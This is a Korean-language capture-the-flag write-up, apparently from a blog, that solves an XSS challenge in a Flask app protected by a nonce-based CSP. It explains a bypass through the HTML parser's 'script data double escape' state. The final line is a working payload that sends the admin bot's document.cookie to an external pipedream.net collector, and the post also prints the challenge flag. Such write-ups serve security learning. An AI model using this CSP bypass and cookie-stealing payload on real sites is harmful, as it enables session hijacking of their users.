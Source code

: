```python
        'is_admin': 0
    }
    return render_template("index.html", **ctx)
```

매우 간단한 구성을 가진 코드다. xss를 해야하는데 csp가 걸려있다.
```default-src 'self'; base-uri 'none'; script-src 'nonce-~~'
    'unsafe-inline'; require-trusted-types-for 'script'; trusted-types default"
```
굉장히 튼튼해보이며, template이 들어가는 곳엔
```
{{ note | safe }}
```
sanitize 없이 우리의 Input이 출력된다.
Injection이 가능한 point는 2곳이 있는데 
```html
<script nonce="{{ nonce }}">
        const debug = () => {
            const name = "{{ name | safe }}";
            const code = "{{ code | safe }}";
            console.log(`${name} : execute debug mode`)
            eval(code);
        }
        if ({{ is_admin }}) {
            debug();
        }
    </script>
```
첫 번째는 맨 먼저 나오는 스크립트 태그,
두 번째는 마지막 스크립트 태그에 있다.
이때 name, code 파라미터엔 `(,),{,}`가 필터링되었기 때문에 quote를 탈출해도 임의의 함수 실행이 불가능하다.
2번째 인젝션 포인트에선 `(,),{,}`를 사용할 수 있지만 json 형태로 변형되며 backslash가 붙기 때문에 quote를 탈출할 수 없다. 
이를 익스플로잇하기 위해선 nonce bypass를 위해 script 태그의 탈출 없이 이미 정의된 script tag 내에서 함수를 실행해야한다.
여기서 대충 html 스펙을 이용한 트릭을 사용해주면 된다.

```
<!--<script//*
```
위의 코드를 name이나 code 파라미터에 넣을 경우 script data double escape state라는 쌈뽕한 것을 사용할 수 있다.
이는 html parser가 파싱할 때 각 태그를 토큰화하여 분석하기 때문인데 
https://html.spec.whatwg.org/multipage/parsing.html#script-data-double-escape-start-state
이걸 읽어보자.

아무튼 저걸 쓰면 2개의 html을 기가막히게 합칠 수 있다. 그럼 아래 부분에서 마저 인젝션을 해주면 xss를 얻을 수 있다.

```
http://server:8188/report?url=http://web:8080/?title=adsf%26name=<!--<script//*%26content=<img src=%27*/};location.replace(`https://enllwt2ugqrt.x.pipedream.net/${document.cookie}`);console.log({//</script><!--
```

Flag: `hspace{7b8bd8459d1aca69888db3a118153a6643ff96abd74ff3ea880c381fe252805a}`

### 블로그 포스트 작성자의 추가적인 코멘트
